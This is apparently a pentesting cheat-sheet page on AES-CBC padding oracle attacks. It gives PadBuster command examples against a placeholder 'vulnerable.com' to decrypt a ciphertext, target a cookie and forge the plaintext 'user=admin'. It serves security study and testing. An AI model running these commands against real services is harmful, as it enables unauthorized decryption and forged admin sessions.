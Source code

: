 ```yaml
---
title: AES-CBC Padding Oracle Attack
description: 
tags:
    - Cryptography
refs:
date: 2022-12-10
draft: false
---
```


## PadBuster

**[PadBuster](https://github.com/AonCyberLabs/PadBuster)** is automated script for performing Padding Oracle attacks. It’s useful to decrypt AES.

```sh
padbuster <url> <encrypted sample> <block size> [options]
```

Belows are some examples.

```sh
# Encrypted Sample -> 2hN2bBPw==
# 16 -> Block site
# -encoding: 0->Base64, 1->Lower Hex, 2->Upper Hex, 3->NET UrlToken, 4->WebSafe Base64
padbuster https://vulnerable.com/?data=2hN2bBPw== 2hN2bBPw==  16 -encoding 0

# -cookies: specify cookie value
padbuster https://vulnerable.com/ 2hN2bBPw== 8 -encoding 0 -cookies "secret=2hN2bBPw=="

# -plaintext: specify plain text
padbuster https://vulnerable.com/ 2hN2bBPw== 8 -encoding 0 -cookies "secret=2hN2bBPw==" -plaintext "user=admin"
```
